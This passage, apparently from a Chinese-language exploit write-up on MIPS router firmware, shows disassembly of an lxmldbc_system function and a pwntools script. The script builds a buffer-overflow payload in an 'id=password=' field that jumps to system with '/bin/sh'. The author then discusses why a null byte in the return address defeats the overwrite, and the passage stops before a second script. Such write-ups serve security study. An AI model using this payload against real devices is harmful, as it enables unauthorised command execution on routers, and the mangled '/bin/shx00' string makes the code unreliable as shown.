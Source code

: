 	.text:004133C4 move $a2, $a0 # format

	.text:004133C8 move $a3, $v0 # arg

	.text:004133CC move $a0, $s0 # s

	.text:004133D0 sw $v0, 0x428+var_410($sp)

	.text:004133D4 jalr $t9 ; vsnprintf

	.text:004133D8 li $a1, 0x400 # maxlen

	.text:004133DC lw $gp, 0x428+var_418($sp)

	.text:004133E0 nop

	.text:004133E4 la $t9, system

	.text:004133E8 nop

	.text:004133EC jalr $t9 ; system

	.text:004133F0 move $a0, $s0 # command

	.text:004133F4 lw $ra, 0x428+var_4($sp)

	.text:004133F8 lw $gp, 0x428+var_418($sp)

	.text:004133FC lw $s0, 0x428+var_8($sp)

	.text:00413400 jr $ra

	.text:00413404 addiu $sp, 0x428

	.text:00413404 # End of function lxmldbc_system

这是脚本：

	from pwn import *

	f=open("payload","wb")

	payload="id=password="+'A'*1056

	payload+=p32(0x004133B0)

	payload+='A'*28

	payload+='/bin/shx00'

	f.write(payload)

	f.close()

但出现了个问题就是“0x004133B0”的00不能读取进去，导致无法定位到目标函数。可以看到并没有覆盖成功，00的位置被41代替了。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g5epdxwdmjj212a0jtagy.jpg>)

而作者的rop是用了链接函数libc.so.0里面的systen进行调用，这样就不会有00的错误。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g5epes8ppbj20yh0j5gu0.jpg>)

脚本：
